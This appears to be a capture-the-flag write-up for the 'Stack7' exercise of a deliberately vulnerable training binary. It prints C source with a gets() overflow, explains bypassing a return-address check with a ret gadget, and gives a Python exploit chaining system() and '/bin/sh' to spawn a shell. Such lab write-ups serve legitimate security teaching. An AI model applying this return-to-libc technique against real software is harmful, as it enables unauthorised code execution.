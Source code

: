 # Stack7

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {       // <- prevent to return to both in libc and stack
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Main Idea

- This challenge is basically the same as stack6, but it's prevent us to use buffer overflow to redirect the program into stack or libc

![img](/stack7/assets/info_proc_map.png)
![img](/stack7/assets/sys_ex_addr.png)
![img](/stack7/assets/ret.png)

- But we can return to any text segment of this program which we can find with objdump and use it like a repeater.

![img](/stack7/assets/text_seg.png)

- Let's find some ret instructions to bypass "if condition" :3

![img](/stack7/assets/ret_addr.png)

- So many rets, but I choose 0x8048383.

```
|          . . . . .
|  + ----------------------+ 
|  |                       | 
|  |   80 bytes padding    | 
|  |                       | 
S  + ----------------------+       
t  |    ret (0x08048383)   |     <- ret of getpath() 
a  + ----------------------+ 
c  |  system (0xb7ecffb0)  | 
k  + ----------------------+ 
|  |   phake ret ("aaaa")  | 
|  + ----------------------+ 
|  | "/bin/sh"(0xb7fb63bf) |     <- feed argument for system()
|  +-----------------------+
|          . . . . .
```

## Exploit

```python
# file name: exp.py

padding = "a"*80
ret_addr = "\x83\x83\x04\x08"
system_addr = "\xb0\xff\xec\xb7"
fake_ret = "a"*4
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + ret_addr + system_addr + fake_ret + binsh_addr

print(payload)

# python exp.py > temp.pwn
# (cat temp.pwn; cat) | ./stack7
```

## Result

![img](/stack7/assets/result.png)
